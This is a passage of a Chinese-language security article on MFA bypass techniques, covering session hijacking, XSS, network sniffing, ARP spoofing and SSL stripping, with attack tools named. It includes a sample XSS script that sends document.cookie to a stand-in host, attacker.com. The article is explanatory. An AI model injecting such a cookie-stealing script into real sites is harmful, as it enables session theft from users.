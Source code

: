 - **逻辑缺陷**：攻击者通过利用MFA实现中的逻辑缺陷绕过认证步骤。
- **配置错误**：攻击者通过利用MFA实现中的配置错误绕过认证步骤。
- **API滥用**：攻击者通过滥用MFA的API接口绕过认证步骤。

## 4. 技术细节与攻击向量

### 4.1 会话劫持的技术细节

会话劫持的核心在于窃取用户的会话令牌。以下是几种常见的会话劫持技术细节：

#### 4.1.1 跨站脚本攻击（XSS）

跨站脚本攻击（XSS）是一种常见的会话劫持手段。攻击者通过注入恶意脚本窃取用户的会话令牌。以下是一个简单的XSS攻击示例：

```html
<script>
  var img = new Image();
  img.src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```

攻击者将上述脚本注入到目标网站中，当用户访问该页面时，脚本会自动执行并将用户的会话令牌发送到攻击者的服务器。

#### 4.1.2 网络嗅探

网络嗅探是一种通过监听网络流量获取用户会话令牌的手段。攻击者可以通过以下工具进行网络嗅探：

- **Wireshark**：一款功能强大的网络协议分析工具，可以捕获和分析网络流量。
- **tcpdump**：一款命令行网络嗅探工具，可以捕获和分析网络流量。

攻击者通过捕获网络流量中的HTTP请求，提取其中的会话令牌。

### 4.2 中间人攻击的技术细节

中间人攻击的核心在于截获并篡改用户的MFA信息。以下是几种常见的中间人攻击技术细节：

#### 4.2.1 ARP欺骗

ARP欺骗是一种通过ARP协议将网络流量重定向到攻击者设备的手段。攻击者可以通过以下工具进行ARP欺骗：

- **Ettercap**：一款功能强大的中间人攻击工具，支持ARP欺骗、DNS欺骗等多种攻击手段。
- **arpspoof**：一款命令行ARP欺骗工具，可以将网络流量重定向到攻击者设备。

攻击者通过ARP欺骗将用户的网络流量重定向到自己的设备，从而截获并篡改用户的MFA信息。

#### 4.2.2 SSL剥离

SSL剥离是一种通过将HTTPS连接降级为HTTP连接，从而截获用户的MFA信息的手段。攻击者可以通过以下工具进行SSL剥离：

- **SSLstrip**：一款功能强大的SSL剥离工具，可以将HTTPS连接降级为HTTP连接。
- **mitmproxy**：一款功能强大的中间人代理工具，支持SSL剥离等多种攻击手段。

攻击者通过SSL剥离将用户的HTTPS连接降级为HTTP连接，从而截获并篡改用户的MFA信息。

### 4.3 社会工程的技术细节

社会工程的核心在于欺骗用户获取MFA信息。以下是几种常见的社会工程技术细节：

